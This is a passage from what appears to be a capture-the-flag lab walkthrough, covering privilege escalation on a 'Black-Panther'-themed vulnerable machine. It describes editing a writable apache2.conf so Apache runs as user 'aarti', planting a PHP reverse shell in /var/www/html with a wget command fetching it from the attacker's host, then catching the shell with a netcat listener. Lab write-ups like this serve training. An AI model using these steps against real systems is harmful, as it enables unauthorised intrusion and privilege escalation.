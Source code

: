 ```
http://127.0.0.1:8081
```

This will give you the fourth amour for “Black-Panther” ![😎](https://s.w.org/images/core/emoji/12.0.0-1/72x72/1f60e.png) 

![](https://i2.wp.com/1.bp.blogspot.com/-tXXDMad7MuU/XZl7hdqKmSI/AAAAAAAAgzg/Lh9bwyVUVeII7WNdNwofxOVqiAvisth-ACLcBGAsYHQ/s1600/16.png?w=687&ssl=1)

### **Privilege Escalation**

This lab is like a Rabbit hole where Enumeration is key for identifying loopholes or further hint. Similarly, we enumerate that /apache2.conf and /html owns writable permission.

![](https://i2.wp.com/1.bp.blogspot.com/-z34MCN58juc/XZl7hq9BviI/AAAAAAAAgzk/1iw9WMY-WVYlmFQR_SOzw8PMu2IamSSYQCLcBGAsYHQ/s1600/17.png?w=687&ssl=1)

Since we know apache2.conf has all permission, therefore, we’ll try to edit this file for the escalating privilege of another user.

![](https://i2.wp.com/1.bp.blogspot.com/-lWYvrShHRHI/XZl7h9U3rMI/AAAAAAAAgzo/Cpm8GtBzUw4RjgBgzkd_TGcBT4O0FegJwCLcBGAsYHQ/s1600/18.png?w=687&ssl=1)

This machine has a user profile named as “aarti” that we had enumerated through /etc/passwd and now try to add a **user:aarti** and **group:aarti** inside the /etc/apache2/apache2.conf so that we will leverage it for privilege escalation. So, the idea is when we restart the apache service it will get executed with aarti user privileges.

So, we have simple copied the entire content of the apache2.conf file in our local machine and made changes as said above.

![](https://i2.wp.com/1.bp.blogspot.com/-Z-AldzrMDF8/XZl7iH1dSiI/AAAAAAAAgzs/6n43fG-Wn3Ylx1_BX28wzibhV1Pj1WgwQCLcBGAsYHQ/s1600/19.png?w=687&ssl=1)

Then download the modified apache2.conf from your local machine into the host machine and replaced the original apache2.conf file as we have done here.

![](https://i0.wp.com/1.bp.blogspot.com/-5Yq8YD-GN-w/XZl7ijiISwI/AAAAAAAAgz0/I9eA4mFnodUJvHUZBJpuavrSg4hv5sCfACLcBGAsYHQ/s1600/20.png?w=687&ssl=1)

As you know the /html has full permission which means inject the php backdoor in this web directory.  Parallelly we grabbed a php-reverse-shell from /usr/share/webshells/php and modified the listener IP as ours and named it as shell.php.

![](https://i1.wp.com/1.bp.blogspot.com/-6rpZVP5bcZU/XZl7i-IHFNI/AAAAAAAAgz4/Kd4nielmdysb5_K0lr7Y3PXj_6P0WMnwQCLcBGAsYHQ/s1600/21.png?w=687&ssl=1)

Then downloaded the shell into /var/www/html folder so that we can access it through the browser.

To make the apache service run as aarti user we have to restart the apache service, thus reboot the machine.

```
cd /var/www/html  
wget http://192.168.1.102:8000/shell.php
```

![](https://i2.wp.com/1.bp.blogspot.com/-X9TiAkpCFqg/XZl7jRm8WRI/AAAAAAAAgz8/9h9ZNe4sD9EmHAIYKhOXiZWwwfR7_IylgCLcBGAsYHQ/s1600/22.png?w=687&ssl=1)

After reboot is complete, we just executed the shell.php script in the browser and at the same time started a netcat listener on your kali.

